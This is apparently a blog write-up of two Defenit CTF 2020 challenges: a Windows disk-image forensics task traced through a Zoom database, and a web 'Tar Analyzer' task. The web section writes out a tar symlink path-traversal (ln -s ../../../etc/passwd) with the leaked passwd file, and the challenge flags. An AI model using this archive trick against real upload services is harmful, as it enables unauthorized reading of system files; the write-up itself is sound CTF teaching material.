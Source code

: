 ```yaml
---
layout: post
title: Defenit CTF 2020 Writeup
published: true
categories: [Web, Forensics]
---
```


I played with CTF.SG last weekend and we achieved 10th in the rankings although we didn't even solve a single pwn!

---

# Find Tangential Cipher

#### Category: Forensics | 3 solves | 857 points

We first-blooded this challenge thanks to my teammate Kenneth!

We are given a [Google Drive link](https://drive.google.com/drive/folders/1oQYvJnbOou5TUXaV1ApoQnP6S_Vj8pbI) with 9 files, named `Evidence.E01-8` and `Evidence.E01.txt`. The total file size is about 12 GB, so please check the link (if it is still alive) if  you want to try the challenge.

From the txt file, we can figure out that it's a physical image of a Windows system.

Opening up the image for browsing, we are greeted with different volumes. 

![Volume Partitions](/assets/defenit-2020/forensics/find-tangential-cipher/vol-partitions.png)

We tried them in order, starting from the first Basic data partition (vol 4) and finding that it's got nothing interesting.

![Volume 4](/assets/defenit-2020/forensics/find-tangential-cipher/vol-4-partition.png)

Moving on to the next basic data partition on vol 7, we find something we're much more acquainted with - the `C:\` Drive Windows Filesystem!

![Volume 7](/assets/defenit-2020/forensics/find-tangential-cipher/vol-7-partition.png)

Browsing around, we started with Appdata, going down the Default (skeleton) user and all the way down to `/User/secre` which seems to be the main user on this machine. We find many files, but nothing too interesting - until we reached the end of Appdata. There was this Zoom database where the `firstName:lastName` of a user was `man:suspect`.

![Zoom-Man-Suspect](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-suspect-man.png)

We knew we were up to something now.

Moving on to the next db in the same folder, we found the message log in the first table of the db. As you can see in the image below, it goes like this:

![Zoom-Tangential-Hint](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-tangential-file.png)

```
Hello
Long Time No See
We're dealing with weapons
I want you to go to the meeting place and get it yourself.
The Tangential Cipher is in the File.
Then, I'll ask you.
```

The next db file only showed the xmpp id, so we skipped that. 

However, going back to the first db in the folder, in the `zoom_mm_file` table, we found a `url` column that looked suspiciously like the `objkey` in a Zoom download link. 

![Zoom-File-ID](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-file-id.png)

Putting that together into a link, we get a file shown below (I think `zfk` is my token so I'm not pasting the link here)

![Zoom-File-Binary](/assets/defenit-2020/forensics/find-tangential-cipher/zoom-file-binary.png)

As the table mentioned that it was a `Secret.docx` file, we use `curl -o flag.docx <URL>` to download it and open it in Microsoft Word.

And we got the flag!

![Flag](/assets/defenit-2020/forensics/find-tangential-cipher/flag.png)


<details>
  <summary>FLAG</summary>
  
  Mr_K_1_W@nT_Cola!!
</details>


---

# Tar Analyzer

#### Category: Web | 278 points

#### Description     
Our developer built simple web server for analyzing tar file and extracting online. He said server is super safe. Is it?

#### Server     
http://tar-analyzer.ctf.defenit.kr:8080/

#### Attachments    
[tar-analyzer.tar.gz](//github.com/Isopach/CTF-Writeup/blob/master/Defenit-2020/Web/Tar-Analyzer/tar-analyzer.tar.gz)

------------------------

We found the unintended solution for this.

Using the symbolic link vector, a common zip file unpacking vulnerability, we first tried to read the `/etc/passwd`.

```
ln -s ../../../etc/passwd aaa
tar -cvf test.tar aaa
```

This returns the `/etc/passwd` on the server as follows.

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
analyzer:x:1000:1000:Linux User,,,:/home/analyzer:
```

Hence we tried to guess the filename, starting with the common `flag.txt`.


```
ln -s ../../../flag.txt aaa
tar -cvf test.tar aaa
```

And done! We got the flag just like that.

<details>
  <summary>FLAG</summary>
  
  Defenit{R4ce_C0nd1710N_74r_5L1P_w17H_Y4ML_Rce!}
</details>

